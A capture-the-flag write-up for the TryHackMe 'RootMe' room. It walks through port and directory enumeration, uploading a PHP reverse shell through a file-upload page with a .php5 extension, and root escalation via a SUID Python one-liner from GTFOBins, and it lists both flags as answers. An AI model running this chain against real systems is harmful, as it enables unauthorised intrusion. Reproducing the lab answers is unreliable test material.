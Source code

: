 # THM - RootMe
**security - web - linux - privilege-escalation**

## Enumeration
IP Address : 10.10.234.144
### 1.1 
#### nmap
**nmap -A 10.10.234.144**
	- 22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	- 80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
### 1.2 
#### gobuster
**gobuster dir -u http://10.10.234.144 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 
    - /uploads => we can see files uploaded
    - /css
    - /js
    - /panel => it is possible to upload files
### Conclusion, vulnerabilities
2 open ports, 80  work with Apache, and /panel possibly weak for reverse shell in php

## Exploit
### 1.1
#### reverse shell
**nc -nlap 1337**
Start home server who listen. 
Dl a php reverse shell and put my ip address (ifconfig).
Test differtents extensions files like .php5.
Go to /upload and execute payload.
In home server : locate *.txt and find /var/www/user.txt
### Conclusion
Payload can be uploaded and executed in a simply way, use locate to find the first flag.

## Privilege escalation
### 1.1
#### sudo
Search files with SUID : **find . -perm /4000
    - /usr/bin/python
Search to GTFOBins "python" and find 
    - ./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
**cat root/root.txt**

## Responses
### Scan the machine, how many ports are open? : 
**2**
### What version of Apache is running? : 
**2.4.29**
### What service is running on port 22? : 
**SSH**
### What is the hidden directory?? : 
**/panel/**
### user.txt : 
**THM{y0u_g0t_a_sh3ll}**
### Search for files with SUID permission, which file is weird? : 
**/usr/bin/python**
### root.txt : 
**THM{pr1v1l3g3_3sc4l4t10n}**

